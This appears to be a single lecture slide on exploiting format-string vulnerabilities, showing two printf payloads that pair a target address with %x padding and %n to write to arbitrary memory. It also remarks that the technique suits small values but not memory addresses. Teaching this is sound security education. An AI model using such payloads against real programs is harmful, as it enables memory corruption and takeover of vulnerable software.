

# Exploiting Format Strings
Writing to arbitrary memory address
printf(“\xde\xf5\xe5\x04%x%x%x%x%n”);

printf(“\xde\xf5\xe5\x04%x%x%x%150x%n”);
works well for writing small values
but not memory addresses